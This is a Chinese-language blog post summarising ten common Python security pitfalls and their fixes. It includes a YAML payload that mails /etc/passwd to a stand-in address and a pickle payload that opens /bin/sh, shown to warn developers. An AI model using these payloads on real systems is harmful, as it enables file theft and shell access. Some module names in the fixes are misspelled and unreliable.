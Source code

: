 title: python 的十个安全问题
date: 2019-04-26 10:06:44
tags:
- Python
- 安全
categories:
- 随手摘录	
photos:	 
- "https://github.com/aldslvda/blog-images/blob/master/python-security.jpg?raw=true"
toc: true
comment: true
---

> 本文介绍了Python中可能出现的十个安全问题。

<!-- more -->

原文:
https://hackernoon.com/10-common-security-gotchas-in-python-and-how-to-avoid-them-e19fbe265e03


### 1. 输入注入
- SQL 注入:
    容易发生在Python中写raw sql进行查询的场景。 
    解决方式:尽量用ORM，如果要写raw sql, 尽量熟悉[SQL注入cheatsheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
- 命令注入:
    容易发生在os.popen(), subprocess.Popen()等场合
    使用shelex模块保证引号的转义是正确的

### 2.解析XML
大多发生在解析不被信任的xml(non-trusted xml)
- billion lols
- 外部实体拓展
- 不安全的非标准库

解决方式: 使用较为安全的解析库进行解析，入defusedxml

### 3. 断言语句
不要用断言对用户的权限进行判断

```python
def foo(request, user):
   assert user.is_admin, “user does not have access”
   # secure code...
```

生产环境中会直接跳过assert直接进行用户可能没有权限的操作

解决方式: 断言只用在与其他开发者交互的场景，比如api调用检查和单元测试

### 4.timing attack
攻击者通过对比较指定加密值的时长判断比较器的行为和使用算法。
由于这种攻击很依赖时间的准确度，很少有远程的攻击，更多的是对一些命令行工具进行破解。
[时间攻击的介绍](http://jyx.github.io/blog/2014/02/02/timing-attack-proof-of-concept/)
[一个例子SSH-based timing attack](https://github.com/c0r3dump3d/osueta)

解决方式:
使用Python 3.5 中引入的secrets.compare_digest 进行敏感字符串的比较

### site-packages 污染
Python的包引用非常的灵活，这使得猴子补丁和标准库函数的重写非常容易，但也造成了最大的安全漏洞之一。
出现场景: 攻击者在Pypi中使用与流行库名称相似的库名

解决方式:
眼神要好，不要手抖
使用virtualenv 保持全局site-packages的清洁
下载包时核对签名

### 临时文件攻击
在你使用mktemp()创建临时文件后和处理临时文件之前修改临时文件。

解决方案:
使用tempfile模块和mkstemp()创建临时文件


### 使用yaml.load
在yaml的load过程中会出现安全问题
例如在yaml中加入这一句
```python
!!python/object/apply:os.system ["cat /etc/passwd | mail me@hack.c"]
```


解决方法:
yaml.s_load

### 解析pickel

例:
```python
import cPickle
import subprocess
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.Popen, (('/bin/sh',),))

print base64.b64encode(cPickle.dumps(RunBinSh()))
```

以上是将打开shell的程序打包到pickel的代码

解决方案:
千万不要从未知源解析pickel

### 使用系统Python, 不打补丁
使用系统提供的Python版本可能有很多未修复的漏洞

解决方式:
使用新版Python，为系统Python 打补丁

### 不给Python的依赖打补丁
同上


